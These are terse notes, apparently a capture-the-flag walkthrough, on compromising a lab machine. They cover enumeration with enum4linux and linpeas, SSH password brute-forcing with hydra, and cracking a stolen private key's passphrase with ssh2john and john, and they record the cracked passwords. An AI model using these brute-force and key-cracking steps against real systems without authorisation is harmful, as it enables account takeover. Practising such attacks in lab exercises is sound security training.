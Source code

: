 text files at /development mention 'struts stuff' (Apache)

tomcat running on :8080

enum4linux finds users jan and kay

hydra jan rockyou armando

linpeas finds kays private key is readable, grab it, chmod 600

```bash
ssh2john kay_rsa > kay_rsa.john
sudo john --wordlist=/opt/wordlists/rockyou.txt --format=SSH kay_rsa.john  # beeswax
ssh -i kay_rsa kay@$IP
cat ~/pass.bak
```